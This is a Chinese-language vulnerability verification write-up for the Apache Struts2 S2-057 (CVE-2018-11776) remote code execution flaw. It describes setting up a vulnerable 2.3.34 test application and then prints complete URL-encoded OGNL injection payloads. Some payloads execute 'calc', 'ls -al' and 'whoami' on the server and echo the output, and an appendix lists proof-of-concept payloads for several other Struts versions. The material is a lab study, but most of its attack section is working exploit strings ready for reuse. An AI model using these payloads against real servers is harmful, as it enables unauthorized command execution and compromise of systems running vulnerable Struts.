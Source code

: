 ## S2-057漏洞验证

### 1.环境搭建
1. 下载最新的受影响版本：http://archive.apache.org/dist/struts/  Struts2 2.3.34 
2. 漏洞介绍  
	该漏洞由安全研究员Man YueMo发现，在Struts2开发框架中使用namespace功能定义XML配置时，如果该值未被设置且上层动作配置（Action Configuration）中未配置或用通配符namespace，可能导致远程代码执行。同理，URL标签未设置value和action值且上层动作未设置或采用通配符namespace时，也可能导致远程代码执行。  
3. 通过业界的分析博客，由四种受影响的使用，在测试Demo中，仅仅验证触发了Redirect action、URL tag和postback result，而Action chain验证则失败，暂时未找到原因。  
	1. Redirect action 
	2. Action chain
	3. Postback result
	4. \<s:url includeParams="get"\>
4. 使用下载的Struts2，创建web工程，实现以上几处功能，见struts2目录中的代码

* 注意：在最初验证漏洞时，疏忽了一个配置项struts.mapper.alwaysSelectFullNamespace = true(是否总用最后一个斜线前的URL段作为namespace)，该值在默认版本中设置为false，只有手动的改为true，才能出发相关漏洞。  
	<img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/1.png" />	

### 2.漏洞验证

1. Location跳转，回显数值计算结果:${(1+1)}  %{(1+2)}  
	验证redirectAction: http://localhost:8080/struts2/snow/${(10+2)}/action1.action?username=redirect&password=helloworld
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/2.png" />	  
  验证Postback：http://localhost:8080/struts2/%25{(10+2)}/action1.action?username=postback&password=helloworld  
	<img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/3.png" />  
	
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/4.png" />
  
  验证URL TAG：http://localhost:8080/struts2/shadow/%25{(1+14)}/help.action  
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/5.png" />
  
  验证Chain，显示代码未执行，失败！！  
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/6.png" />
  
2. 验证弹出计算器
	http://localhost:8080/struts2/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20/Applications/Calculator.app%22%29%29%7D/action1.action?username=redirect&password=helloworld
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/7.png" />
  
3. 执行命令回显
	http://localhost:8080/struts2/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%20-al%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/action1.action?username=redirect&password=helloworld
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/8.png" />
  
  http://localhost:8080/struts2/shadow/%25%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/help.action  
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/9.png" />



### 附记
其它版本POC：  
1. 2.3.20版本：  %24%7B%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C@java.lang.Runtime@getRuntime%28%29.exec%28%27calc.exe%27%29%7D
2. 2.3.34版本：  %24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29%29%7D

3. 2.5.16版本：${(#ct=#request[‘struts.valueStack’].context).#cr=#ct[‘com.opensymphony.xwork2.ActionContext.container’]).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))}  
4. 2.3.16版本：$%7B(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(%23ou.setExcludedClasses('java.lang.Shutdown')).(%23ou.setExcludedPackageNames('sun.reflect.')).(%23dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(%23ct.setMemberAccess(%23dm)).(%23cmd=@java.lang.Runtime@getRuntime().exec('calc'))%7D

### 参考
https://xz.aliyun.com/t/2618  
https://github.com/Ivan1ee/struts2-057-exp  
https://lgtm.com/blog/apache_struts_CVE-2018-11776 
https://www.anquanke.com/post/id/157583  
https://otakekumi.github.io/2018/08/25/S2-057-%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E3%80%81%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90%E5%8F%8AEXP%E6%9E%84%E9%80%A0/   

